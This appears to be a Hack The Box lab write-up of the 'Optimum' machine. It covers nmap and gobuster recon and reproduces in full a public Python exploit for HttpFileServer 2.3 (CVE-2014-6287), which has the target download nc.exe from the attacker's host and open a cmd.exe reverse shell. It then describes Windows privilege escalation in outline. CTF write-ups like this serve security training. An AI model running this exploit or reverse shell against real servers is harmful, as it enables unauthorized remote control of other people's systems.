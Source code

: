 ```yaml
---
title: "Optimum"
date: 2023-06-24T11:30:03+00:00
tags: ["windows","linux","HttpFileServer 2.3"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Optimum.png"
comments: false
description: "This is a friendly Windows machine with a vulnerable web that can be exploited abusing HttpFileServer 2.3."
---
```


Room Information

- Room name: Optimum
- Difficulty level: Easyx
- Room link: [https://app.hackthebox.com/machines/Optimum](https://app.hackthebox.com/machines/Optimum)

![Untitled](/HTB/Optimum.png)

## Tools Used

- Nmap
- Searchsploit
- nc
- wfuzz


## Port Scanning

As always the nmap scan:

```bash
 sudo  nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn 10.10.10.51 -oN escaneo
```
![Untitled](/HTB/nmap-optimum.png)

After doing the analysis with nmap, I saw that there was only one open port (80), so I went to look for 
information about the web.

```bash
 gobuster dir -u http://10.10.10.8/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

After doing the analysis with gobuster and wfuzz I saw that there was no interesting directory. So I decided
to look for something on the page itself, and I saw that the website ran on an 'HttpFileServer 2.3'.

Seen this I searched with shearchsploit if there is some kind of exploit and if there was :))

I found this exploit:
 	
```python

	#!/usr/bin/python
	# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
	# Google Dork: intext:"httpfileserver 2.3"
	# Date: 04-01-2016
	# Remote: Yes
	# Exploit Author: Avinash Kumar Thapa aka "-Acid"
	# Vendor Homepage: http://rejetto.com/
	# Software Link: http://sourceforge.net/projects/hfs/
	# Version: 2.3.x
	# Tested on: Windows Server 2008 , Windows 8, Windows 7
	# CVE : CVE-2014-6287
	# Description: You can use HFS (HTTP File Server) to send and receive files.
	#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
	#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
	#Usage : python Exploit.py <Target IP address> <Target Port Number>

	#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
	#          You may need to run it multiple times for success!


	import urllib2
	import sys

	try:
		def script_create():
			urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

		def execute_script():
			urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

		def nc_run():
			urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

		ip_addr = "10.10.14.16" #local IP address
		local_port = "443" # Local Port number
		vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
		save= "save|" + vbs
		vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
		exe= "exec|"+vbs2
		vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
		exe1= "exec|"+vbs3
		script_create()
		execute_script()
		nc_run()
	except:
		print """[.]Something went wrong..!
		Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
		Don't forgot to change the Local IP address and Port number on the script"""
```

And I ran a http server and a listenner on port 443 ...
 
![Untitled](/HTB/nc-optimum.png)

So I'm in !!!

## Escalating privileges

I entered as user **Kostas** and he had one flag. Then, I did a `systeminfo` and I saved
it as systeminfo.txt, then I ran `python2 windows-exploit-suggester.py -d 2023-08-08-mssb.xlsx -i /home/kali/HTB/optimum/systeminfo.txt`
on my kali machine to know all the posible vulnerabilities ...

![Untitled](/HTB/wsuggester-optimum.png)

Next, after trying the first option I found one that worked :)

![Untitled](/HTB/root-oprimum.png)

Now we are root !!!

## Lessons Learned

- What did you learn from the room?
    
    I learned how to exploit a HttpFileServer 2.3, adn gainin access throw (MS16-098).
    
- Were there any new tools or techniques used?
    
    I used windows-exploit-suggester.py ...
    
- What would you do differently next time?
    
    Next time, I would aim to capture better screenshots of my progress. 😅

**Thank you for reading, and happy hacking! 😄**
